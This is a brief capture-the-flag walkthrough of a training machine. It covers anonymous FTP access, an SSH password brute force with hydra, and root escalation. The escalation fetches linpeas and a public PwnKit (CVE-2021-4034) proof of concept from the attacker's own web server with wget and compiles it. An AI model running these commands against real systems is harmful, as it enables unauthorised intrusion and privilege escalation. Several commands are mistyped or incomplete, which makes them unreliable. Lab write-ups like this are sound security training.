

# Bounty Hunter
 

 
 

## Nmap

 
 

 
 ## Inital Foothold

We see that port 21 is open so the first thing we want to do is check if we are able to anonymously log in. When that is succesfull we see two files. 
* ftp -u anonymous,anonymous 10.10.191.108
 
 

 
 
 
 
 The first will give us lin as a username.
 * more task.txt
 
 

 
 

 The other one is a list of possible passwords. If we copy these into a text file we can use it to brute force the password for lin on ssh.
 
 * get locks.txt
 
 

 
 

 
 * hydra -l lin -P locks.txt 10.10.191.108 ssh
 
 ## Priv Esc
 
 We want to check if we are able to write to our home directory and if the machine has wget.
 * ls -l to check folder permissions
 * which wget to check if wget is installed
 
 Now on our machine we can start a python webserver so that we can transefer over linpeas to enumerate the machine
 * python3 -m http.server 80 to start a webserver on our machine
 * wget http://<your ip>/linpeas.sh
 With linpeas on the target machine we need to change permissons of the file so we can run it
 * chmod +x linpeas.sh
 
 
  

 
 

 
 Linpeas shows us that the machine is vulnerabel to CVE-2021-4034. If we search github we find a poc that we can use. We will just download the whole folder form github and transfer the whole thing to the victim machine since it has gcc to compile the exploit
 * which gcc on the vuctim machine to ensure we can compile 
 * git https://github.com/berdav/CVE-2021-4034.git on our machine to get the POC
 * wget http://<your ip>/CVE-2021-4034
 * cd CVE-2021-4034 make

 

 
 

